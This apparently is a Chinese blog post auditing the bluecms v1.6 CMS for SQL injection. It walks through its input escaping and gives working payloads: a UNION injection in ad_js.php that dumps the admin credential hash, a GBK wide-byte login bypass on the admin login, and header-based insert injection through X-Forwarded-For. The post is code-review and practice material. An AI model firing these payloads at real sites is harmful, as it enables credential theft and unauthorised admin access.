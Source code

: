 ```yaml
---
title: bluecms v1.6 Sql Injection 分析
date: 2017-01-11 22:02:11
tags: 
 - cms
categories: codereview
---
```


## 概述
很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。

<!-- more -->
# SQL注入分析

首先关注一下数据的输入

## 全局数据转义

在common.inc.php中

```
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```
再跟进一下deep_addslashes

```
function deep_addslashes($str)
{
	if(is_array($str))
	{
		foreach($str as $key=>$val)
		{
			$str[$key] = deep_addslashes($val);
		}
	}
	else
	{
		$str = addslashes($str);
	}
	return $str;
}
```
可以发现对数据的注入，进行了加斜杠转义的操作。那么接下来找注入思路主要有以下3点：

1. 找整数型注入
2. 整套cms默认gb2312编码，容易造成宽字节注入
3. http头并不在转义的范围内，所以类似存入ip，reffer的位置也能发生注入

## 整数型注入
拿grep匹配了一下$_GET，找到一处不做其他过滤的整数型位置

```
./ad_js.php:$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```

跟进ad_js.php

```
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
if(empty($ad_id))
{
	echo 'Error!';
	exit();
}

$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```
getone函数

```
function getone($sql, $type=MYSQL_ASSOC){
    	$query = $this->query($sql,$this->linkid);
    	$row = mysql_fetch_array($query, $type);
    	return $row;
}
```

可以看到这里对ad_id没有做其他过滤处理，造成了整数型注入,由于后面会将ad_content打印在页面上，所以直接用union注入就可以获得数据，构造payload

```
/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,concat(admin_name,0x23,pwd)%20from%20blue_admin%20limit%201
```

结果可以在返回的界面中看到

```
<!--
document.write("admin#21232f297a57a5a743894a0e4a801fc3");
-->
```
ps:因为该cms错误回显具体sql语句，表前缀可以通过报错的方法把表前缀爆出来。

## 宽字节注入
bluecms操作数据库的具体类定义在mysql.class.php,默认连接时的编码为gbk，我们可以知道当数据库连接时的编码为gbk等双字节编码时，容易发生宽字节注入。前面提到该套cms对数据输入进行了转义的操作，那么刚刚好条件都齐了，必然存在宽字节注入。grep看了一下，基本上的字符串都只是做了转义处理，所以字符串数据输入点都存在宽字节注入。大多数注入都是盲注，没找到具体可以会显数据的地方，这里就简单看一下登陆处
### 后台登录处
其实前台user.php，也存在注入，只是盲注，这里就取简单的后台登录验证处
admin/login.php

```
elseif($act == 'do_login'){
 	$admin_name = isset($_POST['admin_name']) ? trim($_POST['admin_name']) : '';
 	$admin_pwd = isset($_POST['admin_pwd']) ? trim($_POST['admin_pwd']) : '';
 	$remember = isset($_POST) ? intval($_POST['rememberme']) : 0;
 	if($admin_name == ''){
 		showmsg('xxx');
 	}
 	if($admin_pwd == ''){
 		showmsg('xxx');
 	}
 	if(check_admin($admin_name, $admin_pwd)){
 		update_admin_info($admin_name);
 		if($remember == 1){
 			setcookie('Blue[admin_id]', $_SESSION['admin_id'], time()+86400);
 			setcookie('Blue[admin_name]', $admin_name, time()+86400);
			setcookie('Blue[admin_pwd]', md5(md5($admin_pwd).$_CFG['cookie_hash']), time()+86400);
 		}
 	}else{
 		showmsg('xxx');
 	}
 	showmsg('xxx', 'index.php');
 }
```
继续跟进check_admin

```
function check_admin($name, $pwd)
{
	global $db;
	$row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_name='$name' and pwd = md5('$pwd')");
 	if($row['num'] > 0)
 	{
 		return true;
 	}
 	else
 	{
 		return false;
 	}
}
```
可以看到这里发生了一次登陆验证，可以通过宽字节注入来做万能密码登陆。

```
user_name=admin%65%27+or+1%3D1%23&pwd=123
```
![](/images/bluecms_code_review/bluecms_login_success.png)

## 存入ip造成注入
在common.inc.php中可以找到getip()函数

```
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
再看看调用他的位置
![](/images/bluecms_code_review/bluecms_getip.png)

online_ip调用处
![](/images/bluecms_code_review/bluecms_online_ip.png)

看看guest_book.php处存在insert注入，并且可以通过覆盖后面的content，造成数据回显。通过xff传入注入语句或者client ip传入。

![](/images/bluecms_code_review/bluecms_ip_injection.png)
结果可以看到
![](/images/bluecms_code_review/bluecms_ip_results.png)

其他位置的注入，不能回显，就不分析了。

# 总结
总体来说，直接可以grep到`$_GET`、`$_POST`、`$_REQUEST`的cms，审计起来会比较轻松。可以先从入口看起，将common,config等文件看一遍，再查找危险函数，数据入口就可审计出几个漏洞来。bluecms暂时审计到这一步，主要找的是SQL注入的漏洞。其他漏洞打算准备另外一套cms来审计:)






